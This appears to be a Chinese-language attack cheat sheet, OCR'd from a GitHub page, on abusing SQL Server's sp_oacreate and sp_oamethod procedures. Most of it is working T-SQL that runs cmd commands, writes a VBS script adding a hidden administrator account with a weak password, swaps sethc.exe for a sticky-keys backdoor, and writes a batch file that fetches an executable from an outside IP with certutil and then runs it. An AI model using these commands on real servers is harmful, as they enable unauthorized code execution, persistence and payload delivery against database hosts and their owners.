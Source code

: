 sp_oacreate是一个非常危险的存储过程可以删除、复制、移动文件 还能配合sp_oamethod 来写文件执行cmd

在以前的系统有这几种用法 

1. 调用cmd 来执行命令 

```
wscript.shell执行命令

declare @shell int exec sp_oacreate 'wscript.shell',@shell output exec sp_oamethod @shell,'run',null,'c:\windows\system32\cmd.exe /c xxx'



Shell.Application执行命令
declare @o int
exec sp_oacreate 'Shell.Application', @o out
exec sp_oamethod @o, 'ShellExecute',null, 'cmd.exe','cmd /c net user >c:\test.txt','c:\windows\system32','','1';

```

2. 写入启动项

```
declare @sp_passwordxieo int, @f int, @t int, @ret int
exec sp_oacreate 'scripting.filesystemobject', @sp_passwordxieo out
exec sp_oamethod @sp_passwordxieo, 'createtextfile', @f out, 'd:\RECYCLER\1.vbs', 1
exec @ret = sp_oamethod @f, 'writeline', NULL,'set wsnetwork=CreateObject("WSCRIPT.NETWORK")'
exec @ret = sp_oamethod @f, 'writeline', NULL,'os="WinNT://"&wsnetwork.ComputerName'
exec @ret = sp_oamethod @f, 'writeline', NULL,'Set ob=GetObject(os)'
exec @ret = sp_oamethod @f, 'writeline', NULL,'Set oe=GetObject(os&"/Administrators,group")'
exec @ret = sp_oamethod @f, 'writeline', NULL,'Set od=ob.Create("user","123$")'
exec @ret = sp_oamethod @f, 'writeline', NULL,'od.SetPassword "123"'
exec @ret = sp_oamethod @f, 'writeline', NULL,'od.SetInfo'
exec @ret = sp_oamethod @f, 'writeline', NULL,'Set of=GetObject(os&"/123$",user)'
exec @ret = sp_oamethod @f, 'writeline', NULL,'oe.add os&"/123$"';

```

3. 粘贴键替换

```
declare @o int
exec sp_oacreate 'scripting.filesystemobject', @o out
exec sp_oamethod @o, 'copyfile',null,'c:\windows\explorer.exe' ,'c:\windows\system32\sethc.exe';
declare @o int
exec sp_oacreate 'scripting.filesystemobject', @o out
exec sp_oamethod @o, 'copyfile',null,'c:\windows\system32\sethc.exe' ,'c:\windows\system32\dllcache\sethc.exe';

```

大家可以灵活运用，这里也可以这样玩，把他写成vbs或者其他的来下载文件 ，为什么不直接调用cmd来下载，再2008系统上我是不成功的，但是sp_oacreate可以启动这个文件，所以换个思路

```
declare @sp_passwordxieo int, @f int, @t int, @ret int;
exec sp_oacreate 'scripting.filesystemobject', @sp_passwordxieo out;
exec sp_oamethod @sp_passwordxieo, 'createtextfile', @f out, 'c:\www\1.bat', 1;
exec @ret = sp_oamethod @f, 'writeline', NULL,'@echo off';
exec @ret = sp_oamethod @f, 'writeline', NULL,'start cmd /k "cd c:\www & certutil -urlcache -split -f http://192.168.130.142:80/download/file.exe"';


declare @shell int exec sp_oacreate 'wscript.shell',@shell output exec sp_oamethod @shell,'run',null,'c:\www\1.bat'

declare @shell int exec sp_oacreate 'wscript.shell',@shell output exec sp_oamethod @shell,'run',null,'c:\www\file.exe'
```